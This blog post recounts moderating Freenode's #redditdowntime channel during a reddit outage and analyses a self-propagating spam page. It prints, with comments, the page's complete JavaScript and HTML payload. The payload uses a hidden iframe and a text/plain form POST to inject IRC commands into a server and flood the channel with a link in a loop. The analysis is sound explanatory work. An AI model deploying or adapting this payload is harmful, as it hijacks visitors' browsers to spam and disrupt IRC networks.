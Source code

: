 ```yaml
--- 
layout: post
title: "Using a browser to piss off IRC users, or, spamming #redditdowntime"
tags: 
- Miscellaneous
- Software Development
created: 1264585384
---
```

One of my most favorite sites on the internet, <a id="aptureLink_oItUAC4mad" href="http://www.crunchbase.com/company/reddit">reddit</a>, took [some downtime](http://www.reddit.com/r/announcements/comments/au8tj/reddit_will_be_down_for_maintenance_for_about_two/) this evening while doing some infrastructure (both hardware and software) upgrades. On their down-page, the reddit team invited everybody to join the `#redditdowntime` channel on the <a id="aptureLink_JieW5a5FB1" href="http://twitter.com/freenodestaff">Freenode</a> network, ostensibly to help users pass the time waiting for their pics and <a id="aptureLink_SYNJDA40tz" href="http://www.reddit.com/r/IAmA/">IAMAs</a> to come back online.

Shortly after reddit started their scheduled outage, I joined the channel to pass the time while I debated what I should do with my evening. Within minutes the channel was **flooded** with a number of users, varying between spouting reddit memes in caps. link-spamming or engaging in casual chit-chat. I complained to one of the ops and fairly well-known-to-redditors employee: <a id="aptureLink_dwt02hKbCy" href="http://twitter.com/jedberg">jedberg</a> about the lack of moderation and he nearly instantly gave me `+o` (ops) in the channel. Not one to take my ops duty lightly, I started kicking spammers, warning habitual caps-lock users and tried to keep things generally civil through the deluge of messages consuming the channel. 

Towards the end of the scheduled outage, some automated link-spamming started to appear and once it started it triggered more and more link-spamming. Clearly whatever was behind the <a id="aptureLink_YZZe6EYEsL" href="http://www.crunchbase.com/company/bit-ly">bit.ly</a> link was responsible for the self-propagating nature of the spamming. While the other moderators and myself tried to keep up with banning people I used wget to fetch the destination of the clearly malicious bit.ly URL to determine what we were dealing with. What I found is one of the more clever bits of JavaScript I think I've seen in recent months.

After bringing the site back up for a few minutes, reddit had to take it back down after noticing some problems with the upgrade, so another flood of users filled into the `#redditdowntime` channel and the link-spamming got worse. The most interesting aspect of the JavaScript in the code snippet below is how simple it is, I've commented it up a bit to help explain what's actually going on:

<code type="javascript">
<iframe id="y" name="y" style="display:none"></iframe>

<form method="post" target="y" action="http://irc.freenode.net:6667/" enctype="text/plain" id="f" style="display:none">
    <textarea name="x" id="x"></textarea>
</form>

<script type="text/javascript">
    /* 
     * Generate a random string of characters to use for an IRC nick
     */
    function rnd(){
        var chars="abcdefghijklmnopqrstuvwxyz";
        var r='';
        var length=Math.floor(Math.random()*10+3);
        for (var i=0;i<length;i++){
            var rnum=Math.floor(Math.random() * chars.length);
            r += chars.substring(rnum, rnum+1);
        }
        return r;
    }
    function lol(){
        /* Grab a reference to the textarea */
        var x = document.getElementById('x');
        /* Grab a reference to the form itself */
        var f = document.getElementById('f');
        /* Generate a fake user-name */
        var i = rnd();
        /* Generate a fake nick */
        var n = rnd();

        /* 
         * Build a series of IRC commands into a string:
         *   - Set the username
         *   - Set the nick 
         *   - Join the channel to spam (#redditdowntime)
         *   - Queue up a bunch of PRIVMSG commands to the channel with the spam link
         */
        x.value='\r\nUSER '+i+' 8 * :'+n+'\r\nNICK '+n+'\r\nJOIN #redditdowntime\r\n'+new Array(99).join('PRIVMSG #redditdowntime :http://bit.ly/lolreddit\r\n')+'';

        /* Submit the form, effectively sending the textarea contents to an IRC server */
        f.submit();

        /* Setup a loop for maximum irritation */
        setTimeout(lol, 5000);
    }
    lol();
</script>
<h1>DIGG ROOLZ! REDDIT DROOLZ!</h1></code>
